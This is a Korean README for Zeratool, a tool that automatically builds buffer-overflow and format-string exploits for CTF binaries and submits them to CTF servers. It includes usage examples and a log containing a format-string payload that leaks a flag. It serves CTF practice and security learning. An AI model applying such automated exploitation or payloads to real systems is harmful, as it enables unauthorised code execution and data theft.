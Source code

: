 zeratool == CTF 포너블 문제를 위한 자동 익스플로잇 생성기와 원격 FLAG 캡쳐 도구

## Introduction
이 도구는 angr를 통하여 printf 후킹과 제약되지 않은 경로를 찾아 바이너리를 분석하고, pwntools와 스크립트 트릭을 통해 원격 코드 실행을 편하게 해준다. 마지막으로 페이로드가 로컬에서 테스트된 후 리모트 CTF서버에 제출되어 플래그를 얻을 수 있다.


[![asciicast](https://asciinema.org/a/188002.png)](https://asciinema.org/a/188002)

## Installing
Zeratool은 Ubuntu 16.04에서 테스트되었다고하며, 설치 스크립트는 Ubuntu 12.04에서 Ubuntu 18.04까지 지원됩니다.
```
./install.sh
```

## Usage
Zeratool은 바이너리를 인자로 받아들이고 선택적으로 링크된 libc 라이브러리 및 CTF 서버 연결 정보를 인자로 추가할 수 있는 python 스크립트입니다.
```
[chris:~/Zeratool] [angr] python zeratool.py -h
usage: zeratool.py [-h] [-l LIBC] [-u URL] [-p PORT] [-v] file

positional arguments:
  file                  File to analyze

optional arguments:
  -h, --help            show this help message and exit
  -l LIBC, --libc LIBC  libc to use
  -u URL, --url URL     Remote URL to pwn
  -p PORT, --port PORT  Remote port to pwn
  -v, --verbose         Verbose mode
```

## Exploit Types
Zeratool은 Buffer Overflow 및 Format String 버그에 대하여 지원합니다.

* Buffer Overflow
    * Point program counter to win function
    * Point program counter to shellcode
    * Point program counter to rop chain
        * ROP chains need a libc base address
        * one-gadget and ropper are used rop chain building
* Format String
    * Point GOT entry to win function
    * Point GOT entry to shellcode

## Examples
challenges 폴더에 있는 바이너리 혹은 samples.sh를 통해서 어떻게 동작하는지 테스트해 볼 수 있습니다.
```
#!/bin/bash
#Buffer Overflows with win functions
python zeratool.py challenges/ret -u ctf.hackucf.org -p 9003
python zeratool.py challenges/bof3 -u ctf.hackucf.org -p 9002
python zeratool.py challenges/bof2 -u ctf.hackucf.org -p 9001
python zeratool.py challenges/bof1 -u ctf.hackucf.org -p 9000

#Down for the summer
#python zeratool.py challenges/easy_format -u tctf.competitivecyber.club -p 7801
#python zeratool.py challenges/medium_format -u tctf.competitivecyber.club -p 7802

#Format string leak
python zeratool.py challenges/easy_format
#Format string point to win function
python zeratool.py challenges/medium_format
#Format string point to shellcode
python zeratool.py challenges/hard_format #This one sometimes needs to be run twice

#Buffer overflow point to shellcode
python zeratool.py challenges/demo_bin
```

## Example(easy_format)
```
(zeratool) root@5ba1527e39bb:/pwd/Downloads/Zeratool-master# python zeratool.py challenges/easy_format
[+] Checking pwn type...
[+] Checking for overflow pwn type...
[+] Checking for format string pwn type...
[+] Found symbolic buffer at position 0 of length 49
[+] Vulnerable path found %x_%
[+] Triggerable with STDIN : %x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x

[+] Getting binary protections
[+] Checking for flag leak
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[+] Flag found:
[+] Returned eyU`Zflag{y0u_g0t_1t}
%x_%8x_%17$08x_%18$08x_%19$08x_%20$08x_%21$08x_%22$08x_%23$08x_%8x_%41$08x_%42$08x_%43$08x_%44$08x_%45$08x_%46$08x_%47$08x
```

## Reference
[Zeratool](https://github.com/ChrisTheCoolHut/Zeratool)
